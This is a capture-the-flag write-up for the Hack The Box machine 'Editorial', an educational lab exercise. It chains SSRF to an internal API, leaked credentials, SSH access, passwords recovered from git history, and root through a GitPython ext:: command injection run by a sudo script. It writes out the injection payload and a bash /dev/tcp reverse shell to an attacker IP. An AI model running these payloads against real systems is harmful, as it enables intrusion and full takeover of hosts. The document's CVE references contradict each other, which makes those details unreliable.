

Machine Info
Editorial is an easy difficulty Linux machine that features a publishing web application
vulnerable to Server-Side Request Forgery (SSRF). This vulnerability is leveraged to gain
access to an internal running API, which is then leveraged to obtain credentials that lead to
SSH access to the machine.
Enumerating the system further reveals a Git repository that is leveraged to reveal credentials for a new user. The root user can be obtained by exploiting CVE-2022-24439 and the sudo configuration.

Enumeration:
Nmap:
nmap -sC -sV 10.10.11.20 -oA nmap/Editorial
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-13 18:26 IST
Nmap scan report for 10.10.11.20
Host is up (0.042s latency).
Not shown: 998 closed tcp ports (reset)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 0d:ed:b2:9c:e2:53:fb:d4:c8:c1:19:6e:75:80:d8:64 (ECDSA)
|_ 256 0f:b9:a7:51:0e:00:d5:7b:5b:7c:5f:bf:2b:ed:53:a0 (ED25519)
80/tcp open http nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://editorial.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.79 seconds
The scan reveals two open ports:
-
Port 22 (SSH)
- Running OpenSSH 8.9p1 on Ubuntu
- This could be useful later for gaining a foothold if valid credentials are found.
-
Port 80 (HTTP)
- Running nginx 1.18.0 on Ubuntu
- The server responds with an HTTP redirect to
http://editorial.htb, suggesting a virtual host configuration.
Since the nmap scan indicates that the web server redirects to http://editorial.htb, we need to add the hostname to our /etc/hosts file to resolve it properly.
echo "10.10.11.20 editorial.htb" | sudo tee -a /etc/hosts
Web enumeration:
Visiting the web page, we find that it resembles a book publishing platform.

/upload – Appears to be an upload portal for books, which could be a potential attack surface for file upload exploitation. Additionally, there is a URL submission feature, which could potentially be vulnerable to Server-Side Request Forgery (SSRF).

Vulnerability Assessment:
Since the URL submission feature on /upload allows users to submit links, we test it for Server-Side Request Forgery (SSRF) by attempting to make the server connect to our Python HTTP server.

When submitting our attacker server link (http://10.10.x.x:1234/) in the URL submission feature and clicking Preview, we successfully receive a connection from the target machine (10.10.11.20).
python3 -m http.server 1234
Serving HTTP on 0.0.0.0 port 1234 (http://0.0.0.0:1234/) ...
10.10.11.20 - - [14/Feb/2025 11:13:33] "GET / HTTP/1.1" 200 -
SSRF Exploitation:
After confirming SSRF, we proceed with internal service enumeration. We capture the request in Burp Suite, save it to a file (request.req), and use ffuf to fuzz for open ports on the internal server.

Using FFUF to Enumerate Internal Ports :
We execute the following command to probe all 65,535 ports on 127.0.0.1:
ffuf -request request.req -request-proto http -w <(seq 1 65535) -fr "1630734277837_ebe62757b6e0.jpeg"
/'___\ /'___\ /'___\
/\ \__/ /\ \__/ __ __ /\ \__/
\ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
\ \_\ \ \_\ \ \____/ \ \_\
\/_/ \/_/ \/___/ \/_/
v2.1.0-dev
________________________________________________
:: Method : POST
:: URL : http://editorial.htb/upload-cover
:: Wordlist : FUZZ: /proc/self/fd/11
:: Header : Referer: http://editorial.htb/upload
:: Header : User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
:: Header : Accept-Encoding: gzip, deflate, br
:: Header : Connection: keep-alive
:: Header : Content-Type: multipart/form-data; boundary=---------------------------28859221871595367122082090122
:: Header : Origin: http://editorial.htb
:: Header : Priority: u=0
:: Header : Host: editorial.htb
:: Header : Accept: */*
:: Header : Accept-Language: en-US,en;q=0.5
:: Data : -----------------------------28859221871595367122082090122
Content-Disposition: form-data; name="bookurl"
http://127.0.0.1:FUZZ
-----------------------------28859221871595367122082090122
Content-Disposition: form-data; name="bookfile"; filename=""
Content-Type: application/octet-stream
-----------------------------28859221871595367122082090122--
:: Follow redirects : false
:: Calibration : false
:: Timeout : 10
:: Threads : 40
:: Matcher : Response status: 200-299,301,302,307,401,403,405,500
:: Filter : Regexp: 1630734277837_ebe62757b6e0.jpeg
________________________________________________
5000 [Status: 200, Size: 51, Words: 1, Lines: 1, Duration: 126ms]
[WARN] Caught keyboard interrupt (Ctrl-C)Fuzzing detects port 5000 as open
After identifying port 5000 as open, we send a request to http://127.0.0.1:5000 via Burp Suite Repeater.

The response returns a 200 OK status along with a reference to a file:
static/uploads/d9e45fd9-c245-41f3-9396-80598c36f149 We used curl to query http://editorial.htb/static/uploads/d9e45fd9-c245-41f3-9396-80598c36f149 and discovered multiple API endpoints.
curl http://editorial.htb/static/uploads/d9e45fd9-c245-41f3-9396-80598c36f149 | jq .
% Total % Received % Xferd Average Speed Time Time Time Current
Dload Upload Total Spent Left Speed
100 911 100 911 0 0 8345 0 --:--:-- --:--:-- --:--:-- 8357
{
"messages": [
{
"promotions": {
"description": "Retrieve a list of all the promotions in our library.",
"endpoint": "/api/latest/metadata/messages/promos",
"methods": "GET"
}
},
{
"coupons": {
"description": "Retrieve the list of coupons to use in our library.",
"endpoint": "/api/latest/metadata/messages/coupons",
"methods": "GET"
}
},
{
"new_authors": {
"description": "Retrieve the welcome message sended to our new authors.",
"endpoint": "/api/latest/metadata/messages/authors",
"methods": "GET"
}
},
{
"platform_use": {
"description": "Retrieve examples of how to use the platform.",
"endpoint": "/api/latest/metadata/messages/how_to_use_platform",
"methods": "GET"
}
}
],
"version": [
{
"changelog": {
"description": "Retrieve a list of all the versions and updates of the api.",
"endpoint": "/api/latest/metadata/changelog",
"methods": "GET"
}
},
{
"latest": {
"description": "Retrieve the last version of api.",
"endpoint": "/api/latest/metadata",
"methods": "GET"
}
}
]
}
Among these, the /api/latest/metadata/messages/authors endpoint appeared interesting for further investigation.Using the same SSRF vulnerability, we sent a request to http://127.0.0.1:5000/api/latest/metadata/messages/authors and received a response.

The response returns a 200 OK status along with a reference to a file:
/static/uploads/ef809966-7276-4b87-ac4c-01ac50211a2eBy curling this file :
We obtained sensitive information, including internal login credentials.
curl http://editorial.htb/static/uploads/ef809966-7276-4b87-ac4c-01ac50211a2e
{"template_mail_message":"Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."}
Lateral Movement:
With the obtained credentials , we attempted SSH access as the dev user:
ssh dev@editorial.htb
The authenticity of host 'editorial.htb (10.10.11.20)' can't be established.
ED25519 key fingerprint is SHA256:YR+ibhVYSWNLe4xyiPA0g45F4p1pNAcQ7+xupfIR70Q.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'editorial.htb' (ED25519) to the list of known hosts.
dev@editorial.htb's password:
<SNIP>
Last login: Mon Jun 10 09:11:03 2024 from 10.10.14.52
dev@editorial:~$ ls -la
total 32
drwxr-x--- 4 dev dev 4096 Jun 5 2024 .
drwxr-xr-x 4 root root 4096 Jun 5 2024 ..
drwxrwxr-x 3 dev dev 4096 Jun 5 2024 apps
lrwxrwxrwx 1 root root 9 Feb 6 2023 .bash_history -> /dev/null
-rw-r--r-- 1 dev dev 220 Jan 6 2022 .bash_logout
-rw-r--r-- 1 dev dev 3771 Jan 6 2022 .bashrc
drwx------ 2 dev dev 4096 Jun 5 2024 .cache
-rw-r--r-- 1 dev dev 807 Jan 6 2022 .profile
-rw-r----- 1 root dev 33 Feb 13 12:37 user.txt
Inside dev's home directory, we found an apps folder.
Although it appeared empty, we discovered a hidden .git directory. This indicates the presence of a Git repository, which could contain sensitive information or credentials in its history.
dev@editorial:~$ cd app
dev@editorial:~/apps$ ls -la
total 12
drwxrwxr-x 3 dev dev 4096 Jun 5 2024 .
drwxr-x--- 5 dev dev 4096 Feb 14 05:38 ..
drwxr-xr-x 8 dev dev 4096 Jun 5 2024 .git
Now, using git log, we identified several commits related to API changes and debugging.
dev@editorial:~/apps$ git log
commit 8ad0f3187e2bda88bba85074635ea942974587e8 (HEAD -> master)
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date: Sun Apr 30 21:04:21 2023 -0500
fix: bugfix in api port endpoint
commit dfef9f20e57d730b7d71967582035925d57ad883
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date: Sun Apr 30 21:01:11 2023 -0500
change: remove debug and update api port
commit b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date: Sun Apr 30 20:55:08 2023 -0500
change(api): downgrading prod to dev
* To use development environment.
commit 1e84a036b2f33c59e2390730699a488c65643d28
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date: Sun Apr 30 20:51:10 2023 -0500
feat: create api to editorial info
* It (will) contains internal info about the editorial, this enable
faster access to information.
commit 3251ec9e8ffdd9b938e83e3b9fbf5fd1efa9bbb8
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date: Sun Apr 30 20:48:43 2023 -0500
feat: create editorial app
* This contains the base of this project.
* Also we add a feature to enable to external authors send us their
books and validate a future post in our editorial.
The commit message "It (will) contains internal info about the editorial, this enable faster access to information." seems interesting, as it might contain sensitive information that was removed.
Using git show 1e84a036b2f33c59e2390730699a488c65643d28, we discovered credentials for the prod user
git show 1e84a036b2f33c59e2390730699a488c65643d28
commit 1e84a036b2f33c59e2390730699a488c65643d28
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date: Sun Apr 30 20:51:10 2023 -0500
feat: create api to editorial info
* It (will) contains internal info about the editorial, this enable
faster access to information.
diff --git a/app_api/app.py b/app_api/app.py
<SNIP>
Username: prod\nPassword: 080217_Producti0n_2023!@\n
<SNIP>Now, we can attempt SSH login as the prod user. to further escalate privileges:
ssh prod@editorial.htb
prod@editorial.htb's password:
prod@editorial:~$
Privilege Escalation:
We check sudo privileges using sudo -l, revealing that prod can execute as root.
prod@editorial:~$ sudo -l
[sudo] password for prod:
Matching Defaults entries for prod on editorial:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty
User prod may run the following commands on editorial:
(root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *Exploiting clone_prod_change.py
Since Python scripts executed with sudo can often be modified or abused, we check the script's contents:
prod@editorial:~$ cat /opt/internal_apps/clone_changes/clone_prod_change.py
#!/usr/bin/python3
import os
import sys
from git import Repo
os.chdir('/opt/internal_apps/clone_changes')
url_to_clone = sys.argv[1]
r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
The git binary on the box is version 2.34.1:
prod@editorial:/$ git --version
git version 2.34.However, it’s not running that binary. The script is running the Python Git package GitPython, version 3.1.29:
prod@editorial:/$ pip freeze | grep -i git
gitdb==4.0.10
GitPython==3.1.29
GitPython Arbitrary Code Execution (CVE-2023-40267) :
The installed version of GitPython (3.1.29) has a known arbitrary code execution vulnerability (SNYK-PYTHON-GITPYTHON-3113858). Since the vulnerable script is executed with root privileges, we can exploit this to execute arbitrary commands as root.
We test by creating a file as root:
prod@editorial:~$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c touch% /tmp/pwned'
Traceback (most recent call last):
File "/opt/internal_apps/clone_changes/clone_prod_change.py", line 12, in <module>
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1275, in clone_from
return cls._clone(git, url, to_path, GitCmdObjectDB, progress, multi_options, **kwargs)
File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1194, in _clone
finalize_process(proc, stderr=stderr)
File "/usr/local/lib/python3.10/dist-packages/git/util.py", line 419, in finalize_process
proc.wait(**kwargs)
File "/usr/local/lib/python3.10/dist-packages/git/cmd.py", line 559, in wait
raise GitCommandError(remove_password_if_present(self.args), status, errstr)
git.exc.GitCommandError: Cmd('git') failed due to: exit code(128)
cmdline: git clone -v -c protocol.ext.allow=always ext::sh -c touch% /tmp/D3p4K new_changes
stderr: 'Cloning into 'new_changes'...
fatal: Could not read from remote repository.
Please make sure you have the correct access rights
and the repository exists.After execution, we confirm that /tmp/pwned was successfully created, proving code execution.
prod@editorial:~$ ls -la /tmp/pwned
total 1680
-rw-r--r-- 1 root root 0 Feb 14 06:03 pwnedGetting a root shell:
Now, we replace the payload with a reverse shell:
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py "ext::sh -c bash% -c% 'bash% -i% >&% /dev/tcp/10.10.14.22/4444% 0>&1'"we receive a root shell:
nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.22] from (UNKNOWN) [10.10.11.20] 43204
root@editorial:/opt/internal_apps/clone_changes# cd
cd
root@editorial:~# ls
ls
root.txt
root@editorial:~# cat root.txt
cat root.txt
Appreciation
If my write-up helped you, I’d really appreciate it if you could show your support! 🙏 Also, if you like my content, please consider giving me respect on HTB—your support truly means a lot! 💚✨


Found a Mistake?
If you notice any errors or have feedback, feel free to email me at ashwindeep6@gmail.com. Thanks for your help!